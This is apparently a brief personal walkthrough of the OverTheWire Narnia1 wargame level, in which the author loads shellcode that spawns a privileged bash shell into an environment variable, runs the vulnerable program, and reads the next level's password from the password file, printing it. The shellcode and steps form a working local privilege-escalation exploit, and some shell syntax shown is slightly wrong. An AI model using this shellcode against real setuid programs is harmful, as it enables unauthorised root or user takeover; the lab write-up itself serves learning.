 # Narnia1 (OverTheWire)
immediately look at the source code and see that it wants us to put something executable in the enviroment variable EGG
use printenv and see that EGG doesn't exist
first tried to set EGG to /bin/bash with EGG='/bin/bash' and export EGG, but program seg faults. 
so it's not executing correctly. let's try some shell code instead
EGG = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
export EGG
still seg faults. turns out it only thinks it's executable if there's a $ in the front.
EGG = $"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
export EGG
still wrong. a last ditch attempt: 
EGG = $'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
export EGG
it worked! whoami results in narnia2. cd into /etc/narnia_pass and cat narnia2 to the get the narnia2 password: nairiepecu